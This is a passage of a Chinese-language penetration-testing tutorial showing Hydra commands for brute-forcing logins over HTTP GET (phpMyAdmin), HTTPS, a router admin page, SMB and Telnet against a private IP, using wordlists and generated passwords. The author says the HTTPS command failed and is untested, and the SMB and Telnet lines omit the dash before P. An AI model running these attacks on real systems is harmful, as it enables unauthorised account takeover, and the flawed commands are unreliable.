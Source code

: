 #### 3.6.2.2.**GET方式爆破**

这里其实格式和post差不多，都可以一样使用，只需要修改提交类型即可。

```
命令：hydra -L user.txt -P passwd.txt -t 6 -vV -e ns 192.168.10.50 http-get /phpMyAdmin/ 
```

解释：后面的http-get是定义在http中使用什么提交方式进行爆破，而后面的//phpMyAdmin/指的是URL的访问连接，例如：你的登录页面是admin/index.php，那么后面就要更改为/admin/index.php

![img](assets/wps8-1690339415758-8.jpg) 

## 3.7.**其它爆破**

由于我这边没有实际的案例，无法进行测试。

### 3.7.1.**HTTPS爆破**

下面这个命令，是我在搜索中发现基本上是一致的，然而我式了一下，Hydra直接报错，提示无https协议。正确暂时我还没有测试出来，后面我再找找相关的命令，测试出来，我再添加上去。

```
命令：hydra -m /index.php -l 用户名 -P 密码字典.txt IP地址 https
```

### 3.7.2.**路由器爆破**

路由器爆破，通常默认管理密码都是一串10位左右的各种大小写加特殊字符组成。而这里对路由器爆破就用枚举生成进行爆破。

```
命令：hydra -l admin -x 6:10:1aA.~!@#$%^&()-= -t 6 -vV -e ns 192.168.10.50 http-get /
```

解释：-x是后面的是代表自动生成6到10位由大小写数字+特殊字符组成的密码。

### 3.7.3.**SMB爆破**

```
命令：hydra -L user.txt P passwd.txt -t 6 -vV -e ns 192.168.10.50 smb
```

### 3.7.4.**TELNET爆破**

```
命令：hydra -L user.txt P passwd.txt -t 6 -vV -e ns 192.168.10.50 telnet
```



 

 